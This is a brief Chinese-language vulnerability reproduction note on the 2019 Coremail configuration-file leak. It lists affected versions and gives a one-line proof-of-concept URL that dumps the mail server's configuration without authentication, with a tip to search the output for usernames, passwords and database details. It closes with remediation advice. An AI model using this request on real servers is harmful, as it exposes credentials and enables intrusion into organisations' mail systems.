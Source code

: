 Coremail配置文件信息泄漏
========================

一、漏洞简介
------------

Coremail论客邮件系统开始研发于1999年，是中国第一套中文邮件系统，目前在中国大陆地区拥有超过10亿终端用户，是网易、中华网等运营商至今一直使用的邮件系统，也是政府、事业单位、科教、企业等机构广泛使用的邮件系统。

2019年6月，网上流传出Coremail论客邮件系统配置文件泄露的漏洞，该漏洞无需认证即可获取邮件系统的配置文件内容。

Coremail官网发布的漏洞公告：《关于Coremail邮件系统安全问题的情况说明》，http://www.coremail.cn/About/news\_x/article\_id/32641.htm

二、漏洞影响
------------

Coremail XT 3.0.1至XT 5.0.9版本，XT 5.0.9a及以上版本已修复该漏洞

三、复现过程
------------

### POC

    http://mail.0-sec.org/mailsms/s?func=ADMIN:appState&dumpConfig=/

输入Poc访问漏洞页面发现信息泄露页面内搜索user，password，database等关键字如下图

![](./.resource/Coremail配置文件信息泄漏/media/rId25.png)

### 四、修复建议

1、在不影响使用的情况下，仅允许VPN连接后才可访问；

2、在Web服务器（nginx/apache）上限制外网对 /mailsms
路径的访问。建议使用Coremail构建邮件服务器的信息系统运营者立即自查，发现存在漏洞后及时修复。
